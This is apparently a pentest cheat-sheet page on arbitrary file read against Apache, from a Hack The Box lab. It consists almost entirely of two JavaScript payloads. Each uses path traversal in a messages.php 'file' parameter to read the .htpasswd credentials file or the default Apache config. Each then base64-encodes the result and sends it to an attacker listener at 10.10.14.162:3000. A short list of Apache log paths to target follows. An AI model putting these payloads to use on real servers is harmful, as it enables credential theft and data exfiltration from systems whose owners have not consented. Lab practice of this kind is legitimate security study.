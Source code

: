 ```yaml
---
icon: file-heart
---
```


# Arbitrary File Read

<details>

<summary><mark style="color:purple;"><strong><code>Apache</code></strong></mark></summary>

{% code title="Authorization File" overflow="wrap" %}
```javascript
var req = new XMLHttpRequest();
req.open('GET', 'http://alert.htb/messages.php?file=../../../../../var/www/statistics.alert.htb/.htpasswd', false);
req.send();
var req2 = new XMLHttpRequest();
req2.open('GET', 'http://10.10.14.162:3000/?content=' + btoa(req.responseText),
true);
req2.send();
```
{% endcode %}

{% code title="Default config file" overflow="wrap" %}
```javascript
var req = new XMLHttpRequest();
req.open('GET', 'http://alert.htb/messages.php?file=../../../../../etc/apache2/sites-available/000-default.conf', false);
req.send();
var req2 = new XMLHttpRequest();
req2.open('GET', 'http://10.10.14.162:3000/?content=' + btoa(req.responseText),
true);
req2.send();
```
{% endcode %}

{% hint style="info" %}
#### <mark style="color:red;">`Logs`</mark>

* <mark style="color:purple;">Access Logs:</mark>
  * <mark style="color:orange;">**`/var/log/apache2/access.log`**</mark>
  * <mark style="color:orange;">**`/var/log/httpd/access_log`**</mark>
* <mark style="color:purple;">Error logs:</mark>
  * <mark style="color:orange;">**`/var/log/apache2/error.log`**</mark>
  * <mark style="color:orange;">**`/var/log/httpd/error_log`**</mark>
{% endhint %}

</details>
